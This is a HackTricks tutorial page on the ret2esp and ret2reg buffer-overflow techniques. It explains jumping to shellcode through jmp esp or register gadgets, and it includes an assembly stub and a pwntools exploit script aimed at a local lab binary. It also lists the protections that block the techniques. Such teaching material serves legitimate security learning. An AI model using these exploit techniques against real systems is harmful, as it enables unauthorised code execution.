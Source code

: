 # Ret2esp / Ret2reg

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## **Rest2esp**

**Because the ESP (Stack Pointer) always points to the top of the stack**, this technique involves replacing the EIP (Instruction Pointer) with the address of a **`jmp esp`** or **`call esp`** instruction. By doing this, the shellcode is placed right after the overwritten EIP. When the `ret` instruction executes, ESP points to the next address, precisely where the shellcode is stored.

If **Address Space Layout Randomization (ASLR)** is not enabled in Windows or Linux, it's possible to use `jmp esp` or `call esp` instructions found in shared libraries. However, with [**ASLR**](../common-binary-protections-and-bypasses/aslr/) active, one might need to look within the vulnerable program itself for these instructions (and you might need to defeat [**PIE**](../common-binary-protections-and-bypasses/pie/)).

Moreover, being able to place the shellcode **after the EIP corruption**, rather than in the middle of the stack, ensures that any `push` or `pop` instructions executed during the function's operation don't interfere with the shellcode. This interference could happen if the shellcode were placed in the middle of the function's stack.

### Lacking space

If you are lacking space to write after overwriting RIP (maybe just a few bytes), write an initial `jmp` shellcode like:

```armasm
sub rsp, 0x30
jmp rsp
```

And write the shellcode early in the stack.

### Example

You can find an example of this technique in [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp) with a final exploit like:

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

jmp_rsp = next(elf.search(asm('jmp rsp')))

payload = b'A' * 120
payload += p64(jmp_rsp)
payload += asm('''
    sub rsp, 10;
    jmp rsp;
''')

pause()
p.sendlineafter('RSP!\n', payload)
p.interactive()
```

## Ret2reg

Similarly, if we know a function returns the address where the shellcode is stored, we can leverage **`call eax`** or **`jmp eax`** instructions (known as **ret2eax** technique), offering another method to execute our shellcode. Just like eax, **any other register** containing an interesting address could be used (**ret2reg**).

### Example

You can find an example here: [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/ret2reg/using-ret2reg](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/ret2reg/using-ret2reg)

## Protections

* [**NX**](../common-binary-protections-and-bypasses/no-exec-nx.md): If the stack isn't executable this won't help as we need to place the shellcode in the stack and jump to execute it.
* [**ASLR**](../common-binary-protections-and-bypasses/aslr/) & [**PIE**](../common-binary-protections-and-bypasses/pie/): Those can make harder to find a instruction to jump to esp or any other register.

## References

* [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode)
* [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
